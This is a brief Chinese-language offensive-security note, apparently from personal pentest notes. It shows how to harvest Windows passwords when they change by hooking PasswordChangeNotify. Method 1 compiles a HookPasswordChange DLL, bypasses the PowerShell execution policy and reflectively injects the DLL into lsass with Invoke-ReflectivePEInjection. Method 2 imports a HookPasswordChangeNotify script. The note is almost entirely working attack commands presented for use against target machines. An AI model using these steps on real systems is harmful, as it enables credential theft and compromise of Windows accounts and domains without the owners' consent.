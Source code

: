 ## Method 1
```bash
# 下载
https://github.com/clymb3r/Misc-Windows-Hacking
https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1
#使用 Visual Studio Install 编译
```
使用静态库编译![[Pasted image 20240625215455.png|350]]
![[Pasted image 20240625215522.png|300]]
![[Pasted image 20240625215533.png]]
将编译后的文件上传后执行
```powershell
Set-ExecutionPolicy bypass
Import-Module .\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass
```
## Method 2
```powershell
# 下载
https://github.com/kevien/PasswordchangeNotify/blob/master/HookPasswordChangeNotify.ps1
Set-ExecutionPolicy bypass
Import-Module .\HookPasswordChangeNotify.ps1
```
